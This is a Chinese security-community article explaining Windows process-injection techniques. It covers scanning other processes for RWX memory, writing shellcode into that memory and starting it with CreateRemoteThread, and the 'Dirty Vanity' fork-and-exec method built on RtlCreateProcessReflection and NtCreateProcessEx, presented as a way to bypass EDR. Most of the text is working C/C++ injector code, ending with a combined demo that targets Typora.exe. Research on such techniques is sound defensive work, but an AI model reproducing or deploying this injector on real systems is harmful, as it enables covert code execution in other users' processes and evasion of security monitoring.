# 从RWX权限内存遍历到Dirty Vanity-先知社区

> **来源**: https://xz.aliyun.com/news/17306  
> **文章ID**: 17306

---

## 遍历RWX内存

首先NtQuerySystemInformation通过遍历进程

```
LPVOID buf = malloc(sizeof(SYSTEM_PROCESS_INFORMATION));
   ULONG retLen = 0;
   NTSTATUS status = NtQuerySystemInformation(SystemProcessInformation, buf, sizeof(SYSTEM_PROCESS_INFORMATION), &retLen);
   PSYSTEM_PROCESS_INFORMATION processInfo = NULL;
   if (!NT_SUCCESS(status)) {
       processInfo = (PSYSTEM_PROCESS_INFORMATION)realloc(buf,retLen);
       memset(processInfo, 0, retLen);
       status = NtQuerySystemInformation(SystemProcessInformation, processInfo, retLen, &retLen);
   }
   if (!NT_SUCCESS(status)) {
       return 1;
   }
 
 
   while (processInfo->NextEntryOffset){
 
       
       processInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)processInfo + processInfo->NextEntryOffset);
   }
```

然后通过NtQueryVirtualMemory查询内存属性 找到RWX权限内存

```
DWORD pid = HandleToULong(processInfo->UniqueProcessId);
 
 
 if (pid) {
     HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
     if (hProcess) {
         SIZE_T retLeng = 0;
         LPVOID baseAddr = NULL;
 
         while (1) {
             MEMORY_BASIC_INFORMATION mbi = { 0 };
             status = NtQueryVirtualMemory(hProcess, baseAddr, MemoryBasicInformation, &mbi, sizeof(MEMORY_BASIC_INFORMATION), NULL);
 
             if (!NT_SUCCESS(status)) {
                 break;
             }
             if (mbi.Protect & PAGE_EXECUTE_READWRITE && mbi.Type & MEM_PRIVATE && mbi.State & MEM_COMMIT) {
                 printf("Process: %wZ,\t\t\t\t size:%d kb,\t\t addr:0x%llx
", &processInfo->ImageName, mbi.RegionSize / 1024, mbi.BaseAddress);
             }
             baseAddr = (LPVOID)((DWORD_PTR)baseAddr + mbi.RegionSize);
         }
 
         CloseHandle(hProcess);
     }
 }
```

写入远程进程 创建线程执行

```
if (RtlCompareUnicodeString(&uTargetName, &processInfo->ImageName, FALSE) == 0) {
                             if (sizeof(shellcode) < mbi.RegionSize) {
                                 SIZE_T bytesWritten = 0;
                                 status = NtWriteVirtualMemory(hProcess, mbi.BaseAddress, shellcode, sizeof(shellcode), &bytesWritten);
                                 if (NT_SUCCESS(status)) {
                                     HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
                                     break;
                                 }
                             }
                         }
```

由于原来这块内存是被使用着的 这么写过去执行大概率会崩溃 但是无论怎么样 shellcode还是跑起来了


针对.net程序 存在一个名为BaseNamedObjectsCor\_Private\_IPCBlock\_v4\_[pid]的句柄



也可以通过这个特性来查找

## Dirty Vanity

Dirty Vanity是一种代码注入技术 利用windows的fork&exec进行进程创建

常规的进程注入涉及到远程申请内存 远程写内存 创建远程线程执行

在该方法中 执行的操作发生在fork的进程中而非原进程 而执行的进程也没有对应远程申请内存和远程写内存的操作

windows通过ntdll.dll 下的RtlCloneUserProcess实现fork操作

什么是fork? 用于创建一个新的子进程，新进程是父进程的完全副本，除了PID不同之外，其他数据（内存、文件描述符、代码等）都相同

```
NTSTATUS
 NTAPI
 RtlCloneUserProcess(
     _In_ ULONG ProcessFlags,
     _In_opt_ PSECURITY_DESCRIPTOR ProcessSecurityDescriptor,
     _In_opt_ PSECURITY_DESCRIPTOR ThreadSecurityDescriptor,
     _In_opt_ HANDLE DebugPort,
     _Out_ PRTL_USER_PROCESS_INFORMATION ProcessInformation
     );
```

实际上就是对NtCreateUserProcess的封装





frok分self fork和remote fork

顾名思义 就是fork自身 还是fork远程进程

### NtCreateUserProcess

先来探究一下NtCreateUserProcess

```
NTSTATUS
 NTAPI
 NtCreateUserProcess(
     _Out_ PHANDLE ProcessHandle,
     _Out_ PHANDLE ThreadHandle,
     _In_ ACCESS_MASK ProcessDesiredAccess,
     _In_ ACCESS_MASK ThreadDesiredAccess,
     _In_opt_ PCOBJECT_ATTRIBUTES ProcessObjectAttributes,
     _In_opt_ PCOBJECT_ATTRIBUTES ThreadObjectAttributes,
     _In_ ULONG ProcessFlags, // PROCESS_CREATE_FLAGS_*
     _In_ ULONG ThreadFlags, // THREAD_CREATE_FLAGS_*
     _In_opt_ PRTL_USER_PROCESS_PARAMETERS ProcessParameters,
     _Inout_ PPS_CREATE_INFO CreateInfo,
     _In_opt_ PPS_ATTRIBUTE_LIST AttributeList
     );
```

前两个参数是写回的句柄

第三第四个是访问掩码 PROCESS\_ALL\_ACCESS这种 上面0x2000000LL对应的是MAXIMUM\_ALLOWED

第五第六 将要创建的对象的属性

第七第八 属性标志 诸如挂起之类的

ProcessParameters 指向RTL\_USER\_PROCESS\_PARAMETERS结构的指针 用于指定ImagePathNameCommandLine等参数

CreateInfo 指向PS\_CREATE\_INFO结构的指针 传入大小和PsCreateInitialState即可

AttributeList 属性列表 Attribute成员由PsAttributeValue宏提供

在这可以利用NtCreateUserProcess进行self fork

```
NTSTATUS NtForkUserProcess(){
 
     HANDLE hProcess = NULL;
     HANDLE hThread = NULL;
     OBJECT_ATTRIBUTES poa = { sizeof(poa) };
     OBJECT_ATTRIBUTES toa = { sizeof(toa) };
     PS_CREATE_INFO createInfo = { sizeof(createInfo) };
 
     createInfo.State = PsCreateInitialState;
     createInfo.Size = sizeof(PS_CREATE_INFO);
 
     PPS_ATTRIBUTE_LIST attributeList = (PPS_ATTRIBUTE_LIST)malloc(sizeof(PS_ATTRIBUTE_LIST));
     memset(attributeList, 0, sizeof(PS_ATTRIBUTE_LIST));
     attributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
     attributeList->Attributes[0].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
     attributeList->Attributes[0].Size = sizeof(HANDLE);
     attributeList->Attributes[0].ValuePtr = GetCurrentProcess();
 
     pNtCreateUserProcess  NtCreateUserProcess = (pNtCreateUserProcess)(GetProcAddress(LoadLibraryA("ntdll.dll"), "NtCreateUserProcess"));
     NTSTATUS status = NtCreateUserProcess(&hProcess, &hThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, NULL, NULL, PROCESS_CREATE_FLAGS_INHERIT_FROM_PARENT | PROCESS_CREATE_FLAGS_INHERIT_HANDLES, THREAD_CREATE_FLAGS_CREATE_SUSPENDED, NULL, &createInfo, attributeList);
     auto pid = GetProcessId(hProcess);
     std::cout << "pid: " << pid << std::endl;
     return status;
 }
```

这里没有线程 只有一个进程的壳

当我们尝试替换pid为其它进程pid时 失败了 返回C000000D STATUS\_INVALID\_PARAMETER



### NtCreateProcessEx

remote fork

PssCaptureSnapshot底层调用了NtCreateProcessEx

```
NTSTATUS NtForkRemoteUserProcess(DWORD pid) {
     pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtCreateProcessEx");
     
     HANDLE targetProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
     HANDLE hProcess = NULL;
     NTSTATUS status = NtCreateProcessEx(&hProcess, MAXIMUM_ALLOWED, NULL, targetProcess, PROCESS_CREATE_FLAGS_INHERIT_FROM_PARENT | PROCESS_CREATE_FLAGS_INHERIT_HANDLES, NULL, NULL,NULL,NULL);
     
         
     return status;
 }
```

### RtlCreateProcessReflection

remote fork

首先在当前进程和目标进程创建共享内存





创建线程执行RtlpProcessReflectionStartup

在RtlpProcessReflectionStartup里面我们看见了熟悉的RtlCloneUserProcess fork了自身



执行StartRoutine



demo如下

```
NTSTATUS forkAndExec(DWORD pid,LPVOID execAddr) {
     pRtlCreateProcessReflection RtlCreateProcessReflection = (pRtlCreateProcessReflection)GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlCreateProcessReflection");
     HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
 
     RTLP_PROCESS_REFLECTION_REFLECTION_INFORMATION info = { 0 };
 
     ULONG flags = RTL_PROCESS_REFLECTION_FLAGS_INHERIT_HANDLES| RTL_PROCESS_REFLECTION_FLAGS_NO_SUSPEND;
     NTSTATUS status = RtlCreateProcessReflection(hProcess, flags, execAddr, nullptr, NULL, &info);
     
     if (!NT_SUCCESS(status)) {
         std::cout << __FUNCDNAME__ << "wrong! status: 0x" << std::hex << status << std::endl;  
     }
     return status;
 }
```

这里使用作者提供的shellcode

<https://github.com/deepinstinct/Dirty-Vanity/blob/main/DirtyVanity/DirtyVanity.cpp>





现在结合遍历RWX内存

```
UNICODE_STRING uTargetName = { 0 };
     RtlInitUnicodeString(&uTargetName, L"Typora.exe");
 
     LPVOID buf = malloc(sizeof(SYSTEM_PROCESS_INFORMATION));
     ULONG retLen = 0;
     NTSTATUS status = NtQuerySystemInformation(SystemProcessInformation, buf, sizeof(SYSTEM_PROCESS_INFORMATION), &retLen);
     PSYSTEM_PROCESS_INFORMATION processInfo = NULL;
     if (!NT_SUCCESS(status)) {
         processInfo = (PSYSTEM_PROCESS_INFORMATION)realloc(buf,retLen);
         memset(processInfo, 0, retLen);
         status = NtQuerySystemInformation(SystemProcessInformation, processInfo, retLen, &retLen);
     }
     if (!NT_SUCCESS(status)) {
         return 1;
     }
 
 
     while (processInfo->NextEntryOffset){
 
         DWORD pid = HandleToULong(processInfo->UniqueProcessId);
         
         
         if (pid) {
             HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
             if (hProcess) {
                 SIZE_T retLeng = 0;
                 LPVOID baseAddr = NULL;
 
                 while (1) {
                     MEMORY_BASIC_INFORMATION mbi = { 0 };
                     status = NtQueryVirtualMemory(hProcess, baseAddr, MemoryBasicInformation, &mbi, sizeof(MEMORY_BASIC_INFORMATION), NULL);
 
                     if (!NT_SUCCESS(status)) {
                         break;
                     }
                     if (mbi.Protect & PAGE_EXECUTE_READWRITE && mbi.Type & MEM_PRIVATE && mbi.State & MEM_COMMIT) {
                         printf("Process: %wZ,\t\t\t\t size:%d kb,\t\t addr:0x%llx
", &processInfo->ImageName, mbi.RegionSize / 1024, mbi.BaseAddress);
                     
                         if (RtlCompareUnicodeString(&uTargetName, &processInfo->ImageName, FALSE) == 0) {
                             if (sizeof(shellcode) < mbi.RegionSize) {
                                 SIZE_T bytesWritten = 0;
                                 status = NtWriteVirtualMemory(hProcess, mbi.BaseAddress, shellcode, sizeof(shellcode), &bytesWritten);
                                 if (NT_SUCCESS(status)) {
                                     forkAndExec((DWORD)processInfo->UniqueProcessId, mbi.BaseAddress);
                                     break;
                                 }
                             }
                         }
                     }
 
                     
                     baseAddr = (LPVOID)((DWORD_PTR)baseAddr + mbi.RegionSize);
                 }
                 CloseHandle(hProcess);
             }
         }
         processInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)processInfo + processInfo->NextEntryOffset);
     }
```



### 为什么不能直接使用MessageBox的shellcode?





fork的进程中USER32!MessageBoxW内部失败了 报错AV



这里USER32.gpsi中内存没有映射到fork的进程中



可以看见原进程中是存在的

在ida中查看gpsi的交叉引用



来自user32!gSharedInfo gSharedInfo在win32kbase.sys中导出


简而言之gSharedInfo是被显式映射到每个进程的并带有 ViewUnmap 属性 该属性影响inheritDisposition 决定了是否映射到子进程

# 参考

<https://www.youtube.com/watch?v=Fpb4eL3vMgk>

<https://www.deepinstinct.com/blog/dirty-vanity-a-new-approach-to-code-injection-edr-bypass>
